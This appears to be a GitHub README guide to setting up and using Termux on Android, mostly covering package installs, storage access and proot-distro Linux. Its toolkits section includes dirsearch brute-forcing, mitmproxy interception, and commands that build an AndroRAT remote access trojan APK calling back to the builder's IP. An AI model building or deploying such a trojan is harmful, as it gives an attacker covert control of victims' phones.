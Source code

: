# 📱🪲🐊📟🍁🌿🌾 About Termux – Complete Guide for Beginners & Power Users

> This repository is a complete, beginner-friendly guide to using **Termux** on Android. Learn how to set it up, install powerful tools, and use Linux like a pro – all from your phone, with or without root access.

---

## 📚 Table of Contents

1. [🍁 What is Termux?](#-what-is-termux)
   
2. [🔧 Initial Setup](#-initial-setup)
   
3. [🛠️ Essential Tools](#-essential-tools)
   
4. [📂 Storage Access](#-storage-access)
   
5. [💻 Linux in Termux (Proot-Distro)](#-linux-in-termux-proot-distro)
    
6. [🧰 Toolkits & Use Cases](#-toolkits--use-cases)
    
7. [⚠️ Troubleshooting & Tips](#-troubleshooting--tips)
    
8. [🧠 Contribute](#-contribute)

---

## 🍁 What is Termux?

**Termux** is an Android terminal emulator and Linux environment app that doesn’t require rooting. You can:

- Run Linux packages and shells
- Install programming environments (Python, Node, etc.)
- Run SSH servers, Git, Kali, Ubuntu, and more!

🔗 [Official Termux F-Droid Page](https://f-droid.org/packages/com.termux/)

---

## 🔧 Initial Setup

1. ✅ **Install Termux from F-Droid** *(Do NOT use Play Store version)*

➤ [https://f-droid.org/packages/com.termux/](https://f-droid.org/packages/com.termux/)

2. ✅ **Update,Upgrade and install basic Essentials**
```
termux-setup-storage
pkg update && pkg upgrade -y
pkg install wget -y
pkg install git -y
pkg install tur-repo -y
pkg install x11-repo -y
pkg install termux-x11-nightly -y
pkg install pulseaudio -y
pkg install curl -y
```

3. ✅ Fix Mirrors (if slow)
```
termux-change-repo
```

---

## 🛠️ Essential Tools

python	
```
pkg install python	
```

proot-distro (Install full Linux distributions)
```
pkg install proot-distro	
```

openssh	(SSH server/client)
```
pkg install openssh	
```

termux-api (Access Android functions)
```
pkg install termux-api	
```

---

## 📂 Storage Access

To access your internal/shared storage (DCIM, Downloads, etc.):
```
termux-setup-storage
```

A popup will request permission. Tap Allow.

Access shared storage via:
```
cd /storage/emulated/0/
```

---

## 💻 Linux in Termux (Proot-Distro)

Want full Linux inside Termux? Use proot-distro.

✅ Install Ubuntu / Kali / Fedora:
```
proot-distro install ubuntu
proot-distro login ubuntu
```

Now you’re inside Ubuntu. You can install tools with apt, set up xfce, mitmproxy, dirsearch, and more.


---

## 🧰 Toolkits & Use Cases

🔎 Dirsearch (Web Directory Brute Force)
```
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
pip install -r requirements.txt
python3 dirsearch.py -u https://example.com -e php,html
```

---

🔍 mitmproxy (HTTP/HTTPS Sniffer)
```
pip install mitmproxy
mitmproxy --listen-port 8080
```

Use to inspect mobile traffic. For advanced use, install cert on second device, set proxy, and run HTTP server.


---

🐍 AndroRAT (Educational RAT)
```
git clone https://github.com/karma9874/AndroRAT.git
cd AndroRAT
python3 -m venv env
source env/bin/activate
pip install -r requirements.txt
python3 androRAT.py --build -i <your_ip> -p 8000 -o rat.apk
```

⚠️ For educational use only. Never use without consent.


---

## ⚠️ Troubleshooting & Tips

Issue	Fix Command

Network tools not working	
```
pkg install net-tools
```

Package errors or 403s	
```
termux-change-repo
```

Storage access denied	
```
termux-setup-storage
```
and restart Termux

Slow repo or package install
Use mirrors via 
```
termux-change-repo
```

Permission denied errors	
Ensure files have execution permission: 
chmod +x tool_name



---

## 🧠 Contribute

Have useful commands or scripts?
PRs and issues are welcome!


---

📢 Stay Updated

🔗 Termux Wiki

🔗 r/termux subreddit

🔗 Awesome-Termux List



---

> Made with 💻❤️ by @mikey-7x – Keep hacking, keep learning!



---



